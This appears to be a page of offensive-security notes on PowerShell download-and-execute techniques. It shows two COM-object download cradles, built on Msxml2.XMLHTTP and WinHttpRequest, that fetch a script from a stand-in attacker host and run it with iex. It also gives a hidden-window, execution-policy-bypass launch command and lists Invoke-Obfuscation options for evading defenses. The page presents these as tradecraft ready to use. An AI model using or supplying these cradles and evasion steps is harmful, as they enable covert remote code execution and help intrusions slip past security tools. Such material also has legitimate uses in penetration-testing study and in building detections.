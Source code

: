   
**Com Objects for Download & Execution**  
[COM Objects](https://docs.microsoft.com/en-gb/windows/win32/com/com-objects-and-interfaces?redirectedfrom=MSDN)

![new.png](Pictures/a8.png)

- `$downloader = New-Object -ComObject Msxml2 .XMLHTTP`  
    `$downloader.open("Get","http://attacker.url/script.ps1", $false)`  
    `$downloader.send()`  
    `iex $downloader.responseText`
    
- `$downloader = New-Object -ComObject WinHttpRequest.5.1`  
    `$downloader.open("Get","http://attacker.url/script.ps1", $false)`  
    `$downloader.send()`  
    `iex $downloader.responseText`
    

We can make all these commands in multiliner to single liner with (;) and also can be executed by making into scripts.

`powershell.exe -ExecutionPolicy bypass -Window hidden .\downloader.ps1`

[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter) to obfuscayed download.

* * *

* * *

## Obfuscation

To evade defenses.  
[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) and put in powershell path environment path.

- `Import-Module Invoke-Obfuscation`  
    *TOKEN* \- Obfuscate Powershell commands into tokens.  
    *AST* \- Obfuscate powershell to AST nodes (powershell 3.0 and greater.)  
    *STRING* \- Obfuscate entire command as string.  
    *ENCODING* \- Obfuscate entire command via encoding.  
    *COMPRESS* \- Convert entire command to one-liner and compress.  
    *LAUNCHER* \- Obfuscate commands args w/Launcher techniques (runs ones it ends).
    